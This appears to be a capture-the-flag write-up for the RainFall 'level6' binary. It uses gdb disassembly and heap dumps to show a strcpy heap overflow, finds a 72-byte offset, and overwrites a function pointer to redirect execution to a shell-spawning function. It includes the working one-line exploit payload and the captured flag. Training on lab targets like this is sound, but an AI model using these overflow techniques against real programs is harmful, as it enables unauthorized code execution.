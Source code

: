 TLDR
```
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   .
   .
   .
   .
   0x080484ba <+62>:	mov    0x1c(%esp),%eax     dst = buffer ptr allocated by first malloc
   0x080484be <+66>:	mov    %edx,0x4(%esp)      src = av1 
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   
   char *strcpy( *dst, *src);
   
   last thing called is unprotected strcpy == overwrite the eip
```


```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```

```
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)

allocate addr in the heap, store it in eax, then move it to $esp+0x1c

(gdb) x $esp+0x1c
      0xbffff6bc:	0x0804a008 [HEAP]

   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   

allocate addr in the heap, store it in eax, then move it to 0x18(%esp)

   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax

   make that addr point to fun m()-puts-
```

send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

```
man strcpy

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables mali-
     cious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

buffer argv1 is `movl   $0x40,(%esp)` = 64, we fuzz until the binary segv:

or maybe try cyclic tool:
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
pass it as argv in gdb:
```
(gdb) run "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Program received signal SIGSEGV, Segmentation fault.
0x61616173
```

```
unhex 61616173 | rev
saaa

cyclic -l saaa
72
```
```
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72')
Segmentation fault (core dumped)
```
overflow the EIP with the addr of n()  0x08048454 
```
./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]')
```











